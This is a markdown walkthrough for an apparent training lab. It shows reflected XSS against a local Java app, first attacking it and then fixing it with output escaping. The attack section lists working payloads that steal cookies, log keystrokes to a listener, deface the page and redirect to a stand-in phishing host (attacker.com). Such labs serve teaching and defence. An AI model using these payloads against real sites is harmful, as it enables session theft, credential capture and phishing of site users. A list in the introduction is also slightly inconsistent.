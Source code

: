 ### Reflected XSS
---

## Introduction XSS

When looking at XSS (Cross-Site Scripting), there are three generally recognized forms of XSS:

1 . Reflected or Stored
2 . DOM Based XSS.

Cross-site scripting (or XSS) is a code vulnerability that occurs when an attacker “injects” a malicious script into an otherwise trusted website. The injected script gets downloaded and executed by the end user’s browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a legitimate script.

## Owasp

https://owasp.org/www-community/attacks/xss/

#### **Lab Image : Java ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -p 8080:8080 -/usr/src/mymaven maven:3.3-jdk-8 mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up -d
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/index.jsp
    ```

    > **Note:** Replace `localhost` with your server ip


![0.png](0.png)

![00.png](00.png)


* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/index.jsp?name=MHN
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>window.location="http://attacker.com/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>var a=new XMLHttpRequest();a.open("GET","http://localhost:9000/?domain="+document.cookie);a.send();</script>
        -------------------------------------
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 0: Add Library to pom.xml and escape 


![2.png](2.png)

![1.png](1.png)

![3.png](3.png)


* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure.jsp?name=MHN
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure.jsp?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E
        ```
        

    This should encoded and should render as normal html



